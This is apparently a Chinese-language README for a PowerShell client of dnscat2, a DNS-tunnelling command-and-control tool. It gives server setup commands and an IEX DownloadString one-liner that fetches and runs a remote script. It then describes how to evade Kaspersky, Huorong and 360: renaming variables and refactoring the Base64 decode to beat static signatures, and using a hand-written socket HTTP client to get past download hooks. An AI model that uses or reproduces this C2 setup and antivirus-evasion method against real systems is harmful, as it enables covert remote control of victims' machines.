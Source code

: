 
### 作者: Mob2003

github地址
https://github.com/Mob2003/dnscat2-powershell


### 1、简介

dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道，它的一大特色就是服务端会有一个命令行控制台，所有的指令都可以在该控制台内完成。包括：文件上传、下载、反弹Shell……

### 2、服务端安装

项目地址

```shell
https://github.com/Mob2003/dnscat2-powershell
```

ubuntu 20.04安装说明

```shell
apt install ruby-dev
git clone https://github.com/Mob2003/dnscat2-powershell.git
cd dnscat2/server/
gem install bundler
bundle install
```

启动服务端

```shell
ruby ./dnscat2.rb --no-cache --secret=12345678 www.baidu.com
```

### 3、powershell客户端使用

项目地址

```shell
https://github.com/Mob2003/dnscat2-powershell
```

打开powershell

```shell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/Mob2003/dnscat2-powershell/master/d1.ps1')
```

连接服务器

```shell
start-Dnscat2 -PreSharedSecret 12345678 -DNSServer 服务器ip  -Domain www.baidu.com
```

如果一切正常，你就可以在服务器上命令行看到New window created
![image](https://user-images.githubusercontent.com/128351726/230552554-32ee3c72-d2ab-4d3e-9b0a-a1d742f681cf.png)


### 4、靶机测试

靶机win10，安装《卡巴斯基》，《火绒》，《360》软件
执行上面命令，这时候会发现有两个问题

- IEX Download后被杀
- 输入命令还没下载就被关掉窗口

### 5、过静态查杀

针对第一个问题，下载ps1源码，对其中变量名，函数调用进行修改与打乱即可，特征大概有两个

1. 源码第三行 $EncodedCompressedFile 

2. 源码第六行，连续调用IO.Compression.DeflateStream 与[IO.MemoryStream][Convert]::FromBase64String
   那么只需要对$EncodedCompressedFile 改个名字，另外再把Frombase64String提取出来做个函数，如下图

![image](https://user-images.githubusercontent.com/128351726/230552595-002a4fe4-9fd2-4bfd-a989-7e3d5102904a.png)


   现在使用各大软件扫描，静态查杀已经通过
   
  ![image](https://user-images.githubusercontent.com/128351726/230552704-80dd3275-5ccc-4a01-83bf-2b37b7cf9424.png)
   
   ### 6、绕过DownloadString限制
   
   高达300多kb的客户端，如果靶机没有文件上传的话，还是很麻烦的，所以要想办法从powershell下载执行。
   经测试360把Webclient的所有下载方法都进行了hook检测，只要有下载动作就强行下载。这里我的解决方案就是，使用socket编程，手撸一个http客户端
   注意，只支持http，不支持https
   
  ![image](https://user-images.githubusercontent.com/128351726/230552751-91b673ba-cd99-40ee-b901-4215676808c4.png)

   拷贝到powershell上执行，没有问题

![image](https://user-images.githubusercontent.com/128351726/230552874-28a2a6ca-b1e1-4825-811f-153f16a60e63.png)


